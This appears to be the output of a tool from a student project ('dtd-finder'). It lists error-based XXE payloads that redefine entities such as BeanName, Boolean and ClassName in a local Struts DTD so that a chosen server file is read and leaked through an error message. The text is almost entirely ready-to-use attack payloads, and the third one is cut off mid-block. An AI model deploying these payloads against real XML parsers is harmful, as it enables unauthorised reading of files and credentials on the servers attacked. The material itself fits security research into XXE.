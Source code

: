 **Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```